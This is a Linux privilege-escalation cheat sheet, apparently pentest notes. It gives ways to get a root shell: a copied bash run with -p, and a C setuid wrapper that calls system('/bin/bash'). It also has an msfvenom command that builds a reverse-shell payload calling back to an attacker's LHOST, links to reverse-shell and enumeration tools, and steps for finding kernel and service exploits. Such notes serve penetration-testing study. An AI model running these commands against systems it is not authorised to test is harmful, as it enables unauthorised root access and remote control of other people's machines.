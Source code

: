 # Linux

## Spawning root shell

### Rootbash

Create copy of `/bin/bash` as `/bin/rootbash` , then run `/bin/rootbash -p`

### Executable

Create bash wrapper in c

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Then, compile it as a root

```text
gcc -o <out_file> <source_code>
```

### Msfvenom executable

Create msfvenom payload, then execute as root.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

### Native reverse shells

```text
https://github.com/mthbernardes/rsg
```

## Enumeration tools

```text
https://github.com/diego-treitos/linux-smart-enumeration
https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/sleventyeleven/linuxprivchecker
https://github.com/AlessandroZ/BeRoot
http://pentestmonkey.net/tools/audit/unix-privesc-check
```

## Techniques

### Kernel exploits

Get kernel version

```text
uname -a 
cat /etc/issue
```

Find an exploit for that particular kernel version

```text
searchsploit linux kernel <version> priv esc
./linux-exploit-suggester-2.pl -k <version>
```

### Service exploits

Find services running as root

```text
ps aux | grep "^root"
netstat -nl
```

Check their versions

```text
<service> -v
<service> --version
dpkg -l | grep <service>
rpm -qa | grep <service>
```


